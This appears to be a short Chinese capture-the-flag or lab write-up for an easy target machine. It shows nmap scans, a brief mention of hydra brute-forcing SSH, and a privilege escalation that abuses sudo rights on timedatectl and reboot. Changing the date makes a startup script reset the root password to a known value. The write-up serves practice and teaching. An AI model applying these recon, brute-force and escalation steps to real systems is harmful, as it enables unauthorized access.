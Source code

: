 
## 靶机信息
- 级别:容易

## Recon
### nmap
```shell
nmap -sn 192.168.1.0/24
//IP:192.168.1.149

sudo nmap --min-rate 10000 -sT -p- 192.168.1.149 -oA tcp_scan/ports
//Ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

sudo nmap -sT -sC -sV -O -p 21,80 192.168.1.149 -oA tcp_scan/details
```

80端口访问有问题，将文件下载并作为user和passwd，hydra爆破即可

## 提权
```shell
sudo -l
    (ALL) NOPASSWD: /usr/bin/timedatectl
    (ALL) NOPASSWD: /sbin/reboot
查看/etc/init.d下的password-policy.sh文件

if [ "$DAYOFWEEK" -eq 4 ]
then
        sudo sh -c 'echo root:TodayIsAgoodDay | chpasswd'
fi



#if [ "$DAYOFWEEK" == 4 ] 
sudo timedatectl set-time '2023-10-12'(这天是一周的第四天)
sudo /sbin/reboot 
靶机重启完毕后以broken用户ssh登录
su //passwd:TodayIsAgoodDay
//成功提权
```